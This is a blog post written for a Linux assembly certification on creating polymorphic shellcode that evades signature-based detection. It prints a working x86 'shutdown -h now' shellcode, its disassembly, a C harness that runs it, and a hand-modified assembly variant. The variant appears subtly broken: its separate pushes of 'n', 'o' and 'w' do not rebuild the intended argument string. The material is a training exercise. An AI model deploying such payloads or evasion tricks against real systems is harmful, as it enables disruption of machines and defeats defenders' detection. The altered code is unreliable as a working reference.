
# Creating polymorphic shellcode

The goal of this article is to create polymorphic verions of three different shellcodes from [http://shell-storm.org](http://shell-storm.org). Polymorphic shellcode has the ability to mutate its code everytime it runs. The instructions changes while algorithm stays intact. The purpose is to evade signature based detections without manually change the shellcode. 

We won't be creating our own polymorphic engine in this article, instead we will manually modify these three shellcodes from shell-storm.org:

- [Linux/x86 - shutdown -h now Shellcode - 56 bytes](http://shell-storm.org/shellcode/files/shellcode-876.php)
- [Linux/x86 - 40 byte shellcode to flush ipchains for Linux x86](http://shell-storm.org/shellcode/files/shellcode-65.php)
- [Linux/x86 - Download + chmod + exec - 108 bytes ](http://shell-storm.org/shellcode/files/shellcode-862.php)

We are not allowed to increase the size more than 50%.

## Shellcode 1: shutdown -h now - 56 bytes

The following program will shutdown your computer immediately when run:

```c
/*
; Title: shutdown -h now Shellcode - 56 bytes
; Date: 2014-06-27
; Platform: linux/x86
; Author: Osanda Malith Jayathissa (@OsandaMalith)

Disassembly of section .text:

08048060 <_start>:
8048060:    31 c0                   xor    eax,eax
8048062:    31 d2                   xor    edx,edx
8048064:    50                      push   eax
8048065:    66 68 2d 68             pushw  0x682d
8048069:    89 e7                   mov    edi,esp
804806b:    50                      push   eax
804806c:    6a 6e                   push   0x6e
804806e:    66 c7 44 24 01 6f 77    mov    WORD PTR [esp+0x1],0x776f
8048075:    89 e7                   mov    edi,esp
8048077:    50                      push   eax
8048078:    68 64 6f 77 6e          push   0x6e776f64
804807d:    68 73 68 75 74          push   0x74756873
8048082:    68 6e 2f 2f 2f          push   0x2f2f2f6e
8048087:    68 2f 73 62 69          push   0x6962732f
804808c:    89 e3                   mov    ebx,esp
804808e:    52                      push   edx
804808f:    56                      push   esi
8048090:    57                      push   edi
8048091:    53                      push   ebx
8048092:    89 e1                   mov    ecx,esp
8048094:    b0 0b                   mov    al,0xb
8048096:    cd 80                   int    0x80

*/

#include <stdio.h>
#include <string.h>

unsigned char code[] =  "\x31\xc0\x31\xd2\x50\x66\x68\x2d"
"\x68\x89\xe7\x50\x6a\x6e\x66\xc7"
"\x44\x24\x01\x6f\x77\x89\xe7\x50"
"\x68\x64\x6f\x77\x6e\x68\x73\x68"
"\x75\x74\x68\x6e\x2f\x2f\x2f\x68"
"\x2f\x73\x62\x69\x89\xe3\x52\x56"
"\x57\x53\x89\xe1\xb0\x0b\xcd\x80";

int
main() {

printf("Shellcode Length:  %d\n", (int)strlen(code));
int (*ret)() = (int(*)())code;
ret();

return 0;
}
```

I extracted the assembly code and modified it manually:

```asm
xor    ecx,ecx                      ; clear ecx
mul    ecx                          ; clear both eax and edx
push   edx                          ; push edx instead of eax
push  0x682d                       ; -h option
mov    edi,esp                      ; save stack pointer to edi
push   eax                          ; push null
push   0x6e                         ; "n" character
push   0x6f                         ; "o" character
push   0x77                         ; "w" character
mov    edi,esp                      ; save stack pointer to edi
push   eax                          ; push null
push   0x6e776f64                   ; these four push instructions correspond to /sbin///shutdown
push   0x74756873
push   0x2f2f2f6e
push   0x6962732f
mov    ebx,esp                      ; save stack pointer to ebx
push   edx                          ; push null
push   esi
push   edi                          ; points to "-h now"
push   ebx                          ; points to /sbin///shutdown
mov    ecx,esp                      ; save stack pointer to ecx
mov    al,0xc-1                     ; 0xc - 1 = 0xb which is execve() syscall
int    0x80                         ; Execute syscall
```

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
